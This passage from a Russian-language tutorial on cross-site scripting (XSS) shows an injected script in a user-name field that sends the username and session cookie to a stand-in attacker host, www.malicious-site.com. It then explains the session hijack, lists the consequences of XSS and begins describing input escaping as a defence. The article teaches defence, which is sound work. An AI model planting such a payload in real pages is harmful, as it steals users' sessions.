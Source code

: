 ```html
            fetch(`http:/www.malicious-site.com`, {
                method: `post`,
                body: JSON.stringify({username, sessionCookie})
            });
        </script>
    </footer>
</article>
```

Визуально на странице ничего не изменится. Всё то же безумное объявление, но это лишь на первый взгляд. Экзотичное имя пользователя (то самое с кодом) содержало закрывающий тег ``</span>``. Выходит, что на этом описание элемента с именем пользователя заканчивается. За ним следует тег ``<script>`` c JavaScript кодом, который браузер вынужден исполнить.

Выполнение этого кода приведёт к отправке идентификатора сессии на сервер злоумышленника (www.malicious-site.com). Получив идентификатор, злоумышленник сможет подставить его себе и войти в сервис от имени пользователя. Дальше можно изменить профиль (если сервис позволяет это сделать без ввода пароля) и сделать другие деструктивные действия.

## Последствия XSS

XSS атаки могут привести к ряду серьезных последствий:

1. Кража личных данных: Атакующий может использовать XSS атаку для получения доступа к личным и конфиденциальным данным пользователя, таким как имена пользователя, пароли, номера кредитных карт и другие персональные данные.

2. Манипулирование пользовательским интерфейсом: С помощью XSS атаки злоумышленник может внести изменения в веб-страницу таким образом, что пользователи будут убеждены предоставить свои личные данные или информацию.

3. Выполнение произвольного кода: XSS атаки позволяют злоумышленникам выполнять произвольный код в браузере жертвы, который может быть использован для различных вредоносных целей, включая установку вредоносного ПО, проведение фишинговых атак и т. д.

4. Сессионная кража: Атакующий может использовать XSS для кражи куки-файлов пользователя, что может привести к краже сессии. Это означает, что злоумышленник может аутентифицироваться как жертва без необходимости вводить имя пользователя и пароль.

5. Разрушение репутации и потеря доверия: Если веб-сайт становится жертвой XSS атак, это может повредить его репутацию и вызвать потерю доверия со стороны пользователей и клиентов.

6. Юридические проблемы: Владельцы веб-сайтов, которые уязвимы к XSS атакам, могут столкнуться с юридическими проблемами, включая нарушение законов о конфиденциальности и обязательств об обеспечении безопасности данных.

## Как бороться с XSS

### Кодирование данных (Escape user input)

Это самый важный и основной способ предотвращения XSS-атак. Суть состоит в преобразовании символов, которые имеют специальное значение в HTML.

Пример на JS:
